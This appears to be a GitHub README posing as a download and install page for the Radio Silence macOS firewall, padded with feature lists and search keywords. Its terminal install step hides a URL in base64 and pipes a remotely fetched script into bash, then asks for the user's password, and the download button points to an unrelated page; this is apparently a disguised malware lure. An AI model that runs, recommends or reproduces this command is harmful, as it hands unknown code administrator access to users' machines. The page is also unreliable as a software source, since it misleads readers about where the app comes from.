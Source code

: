 # Radio Silence for Mac – Effortless App Firewall & Network Monitor

![Radio Silence Logo](https://cdn.soft98.ir/2/Radio%20Silence.png)  

---

## 📥 Download

[![⬇️ Download Now](https://img.shields.io/badge/Radio%20%20Silence-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/radiosilence)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🔎 What is Radio Silence for Mac?

**Radio Silence** is a minimal and powerful firewall for macOS, designed for users who want complete control over their apps' outgoing network connections — without bloated interfaces or complex configurations.

This lightweight tool lets you **block any application from connecting to the internet**, keeping your personal data safe and reducing unwanted network activity. It’s perfect for privacy-conscious users, developers, or anyone who wants to make sure certain apps stay offline.

Unlike traditional firewalls, **Radio Silence runs silently in the background**, consuming virtually zero system resources. You won’t see pop-ups, notifications, or need to approve every connection manually. Just choose the app you want to block, and Radio Silence does the rest.

With full compatibility for **macOS Monterey, Ventura, and Apple Silicon (M1/M2/M3)**, it's the go-to firewall tool for modern Mac users who want simplicity and security.

---

![Radio Silence App Screenshot](https://radiosilenceapp.com/img/radiosilence/network-monitor-monterey.png)

---

## 🚀 Features

- 🧱 One-click app firewall to block outgoing connections
- 🧠 No configuration, no pop-ups, no noise
- 🕵️ Privacy-first: prevent apps from sending data online
- 📡 Live network monitor for real-time activity tracking
- ⚡ Ultra-lightweight, no performance impact
- 🧩 Fully compatible with **macOS Ventura**, **Sonoma**, and **Apple Silicon**
- 🔒 Great for security testing, offline usage, and focus sessions

---

## 🧠 Use Cases

- 🛑 Block tracking apps or telemetry software  
- 🔐 Keep sensitive apps from accessing the internet  
- 🚫 Stop automatic updates or unwanted traffic  
- 🧪 Sandbox apps during development or debugging  
- 🎯 Focus sessions with no distractions

---

## 💡 Why Choose Radio Silence?

Because it just works. Radio Silence offers a **clean, intuitive interface**, does one thing extremely well, and never gets in your way. Whether you’re a privacy advocate, a developer, or a minimalist, it’s the tool you’ll forget is even running – and that’s the point.

---

## 💬 Keywords

`radio silence mac`, `radio silence for mac`, `mac firewall app`, `block outgoing connections mac`, `app firewall mac`, `best firewall for mac`, `macos firewall tool`, `radio silence firewall`, `mac internet blocker`, `lightweight mac firewall`, `firewall for m1 mac`, `mac firewall without popups`, `radio silence m1`, `radio silence monterey`, `radio silence ventura`, `radio silence review`, `disable app internet mac`, `firewall for developers mac`, `silent firewall mac`

---

